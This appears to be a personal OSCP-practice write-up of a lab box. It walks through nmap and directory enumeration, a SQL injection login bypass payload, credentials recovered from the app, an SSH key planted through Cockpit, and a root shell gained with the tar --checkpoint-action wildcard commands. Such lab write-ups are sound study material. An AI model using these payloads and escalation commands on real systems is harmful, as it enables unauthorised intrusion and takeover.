


**Start 08:05 31-01-2025**

---
```
Scope:
192.168.134.10
```
## Recon

### Nmap

```bash
sudo nmap -sC -sV -vvvv --min-rate=5000 -sT -T5 -p- 192.168.134.10  -Pn

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: blaze
9090/tcp open  http    syn-ack Cockpit web service 198 - 220
|_http-title: Did not follow redirect to https://192.168.134.10:9090/
| http-methods: 
|_  Supported Methods: GET HEAD
```


### Feroxbuster

Port `80` gives the following output.


port `9090` however gave an immense output.


:::important
Since I got stuck here I went ahead and ran `gobuster` for good measure to try and see if I missed something.
:::

### Gobuster


Feroxbuster completely missed this! Let's check it out.


### 80/TCP - HTTP


I tried to enter `admin - admin` and got this red colored response:


Perhaps **SQLi**?


Yup, let's do some SQLi testing.

:::note
It looks like we're dealing with a **MySQL** server. I will be referencing the [following site](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md) 
:::

After some tries I get the following:


Not to worry as the site still works.


### SQLi 

I fire up burp to start testing the injections:


Let's start modifying it.

```sql
'OR '' = '
```

:::note
Found it in [this resource](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Databases/MySQL-SQLi-Login-Bypass.fuzzdb.txt?source=post_page-----7e777892e485--------------------------------):
:::


code `302`, seems good, let's try it out.


Awesome


```
james 
canttouchhhthiss@455152

cameron
thisscanttbetouchedd@455152
```

Returning back to port `9090` I was able to log in using *james*'s creds.


### 9090/TCP - HTTP


Login screen for some sort of Ubuntu web access. 

Using *james* creds I got in:


In the **Host > Accounts > james** section I found a spot where I could upload **Authorized Public SSH Keys** so I copy pasted my `id_rsa.pub` file into it.




## Foothold

Let's try to log in via SSH.


### local.txt




## Enumeration


## Privilege Escalation

Using the wildcard trick we get a `root` shell easily.

```bash
touch ./--checkpoint=1
touch ./--checkpoint-action=exec=sh 
sudo tar -czvf /tmp/backup.tar.gz *
```


## proof.txt


---

**Finished 09:02 31-01-2025**

[^Links]: [[OSCP Prep]]
